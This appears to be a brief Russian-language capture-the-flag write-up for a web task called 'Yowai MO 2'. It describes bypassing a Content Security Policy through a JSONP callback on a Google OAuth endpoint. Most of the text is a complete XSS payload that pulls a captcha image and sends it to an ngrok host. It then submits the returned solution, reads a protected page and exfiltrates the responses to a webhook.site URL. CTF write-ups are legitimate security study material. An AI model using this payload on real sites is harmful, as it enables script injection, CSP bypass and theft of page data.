 # Yowai MO 2

На этой задаче разница с таском Yowai MO 1 в Content Security Policy, который разрешает грузить скрипты только с *.google.com

Можем использовать запрос `https://accounts.google.com/o/oauth2/revoke?callback=<SOME_PAYLOAD>`  который вернет наш пейлоад, для обхода CSP.
Итоговый пейлоад полуается:

```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=function log(text){var xhr0=new XMLHttpRequest();xhr0.open('GET','http://webhook.site/67ca4e8f-dc6c-4ec6-8f72-85998ef74a27?'%2btext,true);xhr0.send();};var xhr1=new XMLHttpRequest();xhr1.open('GET','/generate/captcha.png',true);xhr1.responseType='blob';xhr1.onload=function (){var reader=new FileReader();reader.onload=function (){var xhr2=new XMLHttpRequest();xhr2.open('POST','http://0.tcp.in.ngrok.io:17412/upload',true);xhr2.send(reader.result);setInterval(captcha_polling,3000);};reader.readAsDataURL(xhr1.response);};xhr1.send();function captcha_polling(){var xhr3=new XMLHttpRequest();xhr3.open('GET','http://0.tcp.in.ngrok.io:17412/captcha',true);xhr3.onreadystatechange=function (){if(xhr3.readyState==4){if(xhr3.response=='0')return;var captcha_solution=xhr3.response;var xhr4=new XMLHttpRequest();xhr4.open('POST','/validate-captcha',true);xhr4.onreadystatechange=function (){if(xhr4.readyState==4){var text=xhr4.response;log(%2bencodeURIComponent(captcha_solution)%2b''%2btext%2b''%2bxhr4.status);var xhr5=new XMLHttpRequest();xhr5.open('GET','/getWhatawant',true);xhr5.onreadystatechange=function (){log(xhr5.response)};xhr5.send();};};xhr4.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr4.send('captchaInput='%2bcaptcha_solution);};};xhr3.send();}"></script>
```